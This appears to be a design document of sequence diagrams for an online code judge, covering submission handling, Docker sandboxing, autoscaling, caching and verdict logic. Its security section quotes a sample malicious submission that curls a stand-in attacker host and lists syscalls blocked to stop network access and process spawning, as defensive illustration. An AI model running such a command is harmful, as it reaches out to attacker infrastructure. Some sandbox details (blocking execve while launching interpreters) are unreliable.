










# Online Code Judge - Sequence Diagrams

This document contains detailed sequence diagrams showing interaction flows for the Online Code Judge system, including
code submission, execution, real-time status updates, and failure scenarios.

---

## Table of Contents

1. [Code Submission Flow (Happy Path)](#1-code-submission-flow-happy-path)
2. [Docker Container Execution](#2-docker-container-execution)
3. [Compilation and Test Case Execution](#3-compilation-and-test-case-execution)
4. [Real-Time Status Updates via WebSocket](#4-real-time-status-updates-via-websocket)
5. [Contest Submission with High Priority](#5-contest-submission-with-high-priority)
6. [Worker Auto-Scaling](#6-worker-auto-scaling)
7. [Worker Failure and Recovery](#7-worker-failure-and-recovery)
8. [Test Case Cache Hit/Miss](#8-test-case-cache-hitmiss)
9. [Security Violation Detection](#9-security-violation-detection)
10. [Verdict Determination Flow](#10-verdict-determination-flow)

---

## 1. Code Submission Flow (Happy Path)

**Flow:**

Shows the complete flow when a user submits code and receives an Accepted verdict.

**Steps:**

1. **User Submits** (0ms): User clicks "Submit" button with Python code
2. **API Gateway** (50ms): JWT validation, rate limit check (100 submissions/hour)
3. **Submission Service** (50ms): Validate code size (< 64 KB), language supported
4. **Create Record** (20ms): INSERT into PostgreSQL submissions table (status: Queued)
5. **Publish to Kafka** (30ms): Publish message to topic submissions.normal
6. **Return to Client** (50ms): Return submission_id, status: Queued
7. **Queue Wait** (2000ms): Message waits in Kafka queue (avg 2 seconds)
8. **Worker Consumes** (100ms): Judge Manager assigns to available worker
9. **Create Container** (800ms): Docker run with security policies
10. **Execute Tests** (3000ms): Run code against 10 test cases
11. **All Pass** (50ms): All outputs match expected
12. **Update Database** (30ms): UPDATE verdict = 'Accepted', runtime, memory
13. **Update Cache** (20ms): SET Redis submission:id with result
14. **Notify Client** (200ms): WebSocket push or polling returns Accepted

**Total Time:** ~6.2 seconds (user sees result in 6 seconds)

**Performance:**

- Submission acceptance: < 200ms (fast feedback that code received)
- Execution: ~6 seconds (typical for Python)
- Client experience: Good (< 10 seconds for simple code)

---

## 2. Docker Container Execution

**Flow:**

Shows the detailed Docker container creation and execution process with security layers.

**Steps:**

1. **Worker Receives Job** (0ms): Worker consumes message from Kafka
2. **Prepare Code** (10ms): Base64 decode code, write to /tmp/solution.py
3. **Create Container** (800ms):
    - Docker run with security options
    - Seccomp profile loaded
    - AppArmor policy applied
    - Cgroups limits set (1 CPU, 512 MB RAM)
    - Network isolation (--network none)
    - Read-only filesystem (--read-only)
    - Writable /tmp (--tmpfs /tmp)
4. **Copy Code to Container** (50ms): docker cp solution.py container:/tmp/
5. **Execute** (3000ms): timeout 5s python3 /tmp/solution.py < input.txt
6. **Capture Output** (10ms): docker logs container > output.txt
7. **Compare** (20ms): diff output.txt expected.txt
8. **Cleanup** (100ms): docker rm -f container

**Security Layers Applied:**

- Namespace isolation (PID, network, mount)
- Seccomp (block fork, execve, socket syscalls)
- AppArmor (deny /etc, /proc, /sys access)
- Cgroups (CPU: 1 core, Memory: 512 MB, PIDs: 100)
- Network none (no internet)
- Read-only root (only /tmp writable)

**Total Overhead:** 1 second (container creation + cleanup)

---

## 3. Compilation and Test Case Execution

**Flow:**

Shows compilation (for Java/C++) and execution against multiple test cases.

**Steps:**

1. **Check Language** (1ms): language = java
2. **Compile** (500ms): javac Solution.java inside container
3. **Compilation Success** (10ms): Solution.class created
4. **For Each Test Case** (loop 10 times):
    - Read input (5ms): cat test_case_1.in
    - Execute (300ms): timeout 1s java Solution < input
    - Capture output (5ms): stdout > output.txt
    - Compare (5ms): diff output.txt expected_1.out
    - Check time (1ms): execution_time = 234ms < 1000ms ✓
    - Check memory (1ms): memory_used = 45MB < 512MB ✓
5. **All Tests Pass** (1ms): 10/10 passed
6. **Verdict** (1ms): Accepted

**Test Case Execution Time:**

- Per test case: 316ms (300ms execution + 16ms overhead)
- 10 test cases: 3.16 seconds total
- Compilation: 500ms
- **Total: 3.66 seconds**

**Optimizations:**

- Test cases run sequentially (not parallel, fair timing)
- Timeout enforced per test (prevents infinite loops)
- Memory monitored continuously (kill if exceeds limit)

---

## 4. Real-Time Status Updates via WebSocket

**Flow:**

Shows how clients receive real-time status updates using WebSocket and Redis Pub/Sub.

**Steps:**

1. **User Submits** (0ms): Code submitted, submission_id returned
2. **Client Connects** (100ms): WebSocket connection to ws://server/submissions/sub_123
3. **WebSocket Server Subscribes** (20ms): Subscribe to Redis channel submission:sub_123
4. **Worker Starts** (2000ms): Worker picks up job, publishes status: Running
5. **Status Update 1** (50ms): WebSocket server receives from Redis, pushes to client
6. **Test Progress** (3000ms): Worker publishes progress after each test (Test 5/10)
7. **Status Update 2** (50ms): Client receives progress update
8. **Execution Complete** (100ms): Worker publishes final verdict: Accepted
9. **Status Update 3** (50ms): Client receives final verdict
10. **Display Result** (100ms): UI shows Accepted with runtime/memory

**Latency:**

- Worker publishes → Redis → WebSocket → Client: < 100ms
- Total real-time feedback delay: < 100ms (excellent)

**Fallback (Polling):**

- If WebSocket fails, client polls GET /api/submissions/sub_123 every 1 second
- Redis cache serves status (< 10ms response)

---

## 5. Contest Submission with High Priority

**Flow:**

Shows how contest submissions get priority processing to ensure fair timing.

**Steps:**

1. **Contest Active** (0ms): Contest "Weekly Contest 123" is live
2. **User Submits** (0ms): Submits code during contest
3. **Priority Flag** (10ms): Submission Service detects active contest, sets priority: high
4. **Publish to High Priority Queue** (30ms): Kafka topic submissions.high_priority
5. **Separate Consumer** (0ms): Dedicated workers consume high_priority topic first
6. **Fast Pickup** (500ms): Contest submissions picked up faster (500ms vs 2s normal queue)
7. **Execute** (3000ms): Same execution as normal
8. **Update Leaderboard** (50ms): Update contest rankings immediately
9. **Rank Calculation** (100ms): Calculate rank based on (solved_count, total_time)

**Performance:**

- Contest submission latency: 3.5 seconds (vs 6 seconds normal)
- Queue wait reduced: 500ms (vs 2s normal)
- Leaderboard update: Real-time (< 100ms)

**Fairness:**

- All contest submissions use identical execution environment
- Time measured from submission to acceptance (fair timing)
- No geographic advantage (all execute in same region)

---

## 6. Worker Auto-Scaling

**Flow:**

Shows how workers auto-scale based on Kafka queue depth.

**Steps:**

1. **Normal Load** (T0): 10 workers, queue depth 8,000 messages (800/worker, healthy)
2. **Contest Starts** (T1): 10k submissions/sec spike, queue depth rises rapidly
3. **Queue Depth Spike** (T2): Queue depth 50,000 messages (5,000/worker, unhealthy)
4. **Prometheus Detects** (T3): Scrapes Kafka metrics, alert threshold exceeded
5. **Kubernetes HPA Triggers** (T4): HPA decides to scale up (30 seconds decision)
6. **Launch New Workers** (T5): Create 40 new worker pods (90 seconds EC2 launch)
7. **Pods Start** (T6): Docker pull image, start consuming (60 seconds)
8. **Kafka Rebalance** (T7): Redistribute partitions across 50 workers (30 seconds)
9. **New Equilibrium** (T8): 50 workers, queue depth 50,000 (1,000/worker, healthy)
10. **Total Scale-Up Time**: 210 seconds (3.5 minutes from spike to equilibrium)

**Metrics:**

- Before: 8,000 messages, 10 workers, 800/worker ✓
- During spike: 50,000 messages, 10 workers, 5,000/worker ✗
- After scale: 50,000 messages, 50 workers, 1,000/worker ✓

---

## 7. Worker Failure and Recovery

**Flow:**

Shows how system handles worker crash without losing submissions.

**Steps:**

1. **Worker Processing** (T0): Worker 5 processing submission sub_123
2. **Worker Crashes** (T1): Process killed (OOM, segfault, etc.)
3. **Heartbeat Stops** (T2): No heartbeat for 30 seconds
4. **Manager Detects** (T3): Judge Manager marks Worker 5 as dead
5. **Message Unacknowledged** (T4): Kafka detects message not committed
6. **Kafka Rebalances** (T5): Redistribute Worker 5's partitions to others (30 seconds)
7. **Message Redelivered** (T6): sub_123 back in queue after 60 seconds
8. **Worker 10 Picks Up** (T7): Another worker consumes message
9. **Idempotency Check** (T8): Check if sub_123 already judged (no)
10. **Execute** (T9): Process submission normally
11. **Verdict Delivered** (T10): Client receives result

**Client Experience:**

- Submission shows "Running" during crash
- No error message (transparent retry)
- Just longer wait time (+60-90 seconds)
- Final verdict delivered successfully

**Data Loss:** ZERO (Kafka persistence guarantees at-least-once delivery)

---

## 8. Test Case Cache Hit/Miss

**Flow:**

Shows test case caching strategy with three tiers (worker local, CloudFront, S3).

**Steps:**

1. **Worker Needs Test Cases** (0ms): Worker assigned problem "two_sum"
2. **Check Local Cache** (5ms): Look in /var/cache/testcases/two_sum/
3. **Cache Hit** (95%): Test cases found locally, read from SSD (10ms)
4. **Execute Tests** (3000ms): Use cached test cases
   OR
5. **Cache Miss** (5%): Test cases not in local cache
6. **Check CloudFront** (50ms): GET https://cdn.judge.com/testcases/two_sum.tar.gz
7. **CloudFront Hit** (99%): Edge location has cached file
8. **Download and Extract** (200ms): Download 1 MB, extract to local cache
9. **Cache Locally** (50ms): Save to /var/cache/testcases/two_sum/
10. **Execute Tests** (3000ms): Use downloaded test cases

**Cache Invalidation:**

- Problem updated → Redis Pub/Sub event published
- All workers receive event, delete local cache
- Next execution fetches fresh from S3

**Performance:**

- Local hit (95%): 10ms overhead
- CloudFront miss (4%): 250ms overhead
- S3 direct (1%): 500ms overhead
- **Average**: 10 * 0.95 + 250 * 0.04 + 500 * 0.01 = 24.5ms

---

## 9. Security Violation Detection

**Flow:**

Shows how system detects and handles malicious code attempting to escape container.

**Steps:**

1. **User Submits Malicious Code** (0ms): Code with os.system("curl attacker.com")
2. **Worker Executes** (0ms): Create container with strict seccomp profile
3. **Code Attempts Network** (100ms): Code tries to make network connection
4. **Seccomp Blocks** (0ms): socket() syscall blocked by seccomp whitelist
5. **Process Killed** (1ms): EPERM error, process terminates
6. **AppArmor Logs** (10ms): Security violation logged to syslog
7. **Worker Detects** (50ms): Exit code indicates security violation
8. **Update Verdict** (30ms): Verdict = "Security Violation" (special case)
9. **Ban Check** (100ms): Check if user has repeated violations
10. **Ban User** (if >3 violations): Temporarily ban user account
11. **Alert Security Team** (200ms): Send alert to security monitoring

**Blocked Syscalls:**

- socket, connect, bind, listen (network access)
- execve, fork, clone (process creation)
- mount, umount (filesystem modification)
- ptrace (debugging other processes)

**Result:**

- Malicious code cannot escape container
- System protected
- User warned or banned
- Security team notified for investigation

---

## 10. Verdict Determination Flow

**Flow:**

Shows how final verdict is determined based on test case results.

**Steps:**

1. **Initialize** (0ms): verdict = null, passed = 0, failed = 0
2. **Test Case 1** (300ms): Output matches → passed++
3. **Test Case 2** (300ms): Output matches → passed++
4. **Test Case 3** (300ms): Output differs → failed++, verdict = WA, STOP
   OR
5. **Test Case 5** (timeout): Execution > 1 second → verdict = TLE, STOP
   OR
6. **Test Case 7** (segfault): Exit code 139 → verdict = RE, STOP
   OR
7. **Test Case 9** (OOM): Memory > 512 MB → verdict = MLE, STOP
   OR
8. **All 10 Pass** (3000ms): passed = 10 → verdict = AC

**Verdicts:**

- AC (Accepted): All test cases passed
- WA (Wrong Answer): Output doesn't match expected
- TLE (Time Limit Exceeded): Execution > time limit
- MLE (Memory Limit Exceeded): Memory > memory limit
- RE (Runtime Error): Segfault, exception, non-zero exit
- CE (Compilation Error): Compilation failed

**Optimization:**

- Stop on first failure (no need to run remaining tests)
- Early verdict improves latency
- Exception: AC requires all tests

